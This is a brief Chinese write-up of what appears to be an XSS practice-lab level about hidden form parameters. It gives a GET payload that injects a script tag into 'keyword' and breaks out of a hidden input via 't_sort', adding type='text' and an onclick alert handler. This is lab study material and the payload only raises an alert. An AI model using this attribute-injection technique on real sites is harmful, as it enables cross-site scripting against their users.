



# 知识点：
隐藏的参数
# 思路：
payload
```
?keyword=<script>alert(%27xss%27)</script>&t_sort="%20type="text"%20onclick="javascript:alert(1)"%20"
```
隐藏的表单<br /><br />通过尝试发现 t_sort这个参数可以进行get传参<br />用闭合技巧注入onclick属性 还要加上type="text"将input框显现出来<br /><br />
